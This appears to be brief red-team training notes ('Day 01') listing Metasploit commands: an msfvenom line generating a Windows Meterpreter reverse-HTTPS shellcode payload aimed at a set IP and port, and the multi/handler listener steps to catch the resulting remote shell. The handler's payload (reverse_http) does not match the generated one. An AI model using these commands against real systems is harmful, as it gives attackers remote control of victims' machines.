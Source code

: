 <div align="center">
  <h1>Day 01</h1>
  <br/>
</div>

<h2>Metasploit commands:</h2>
<h3>Shellcode generation:</h3>
- msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.61.38 LPORT=9999 -f go

<h3>Listener:</h3>
- msfconsole
- exploit/multi/handler
- set payload windows/x64/meterpreter/reverse_http
- set LHOST <Kali IP address>
- set LPORT <non-standard port>
- run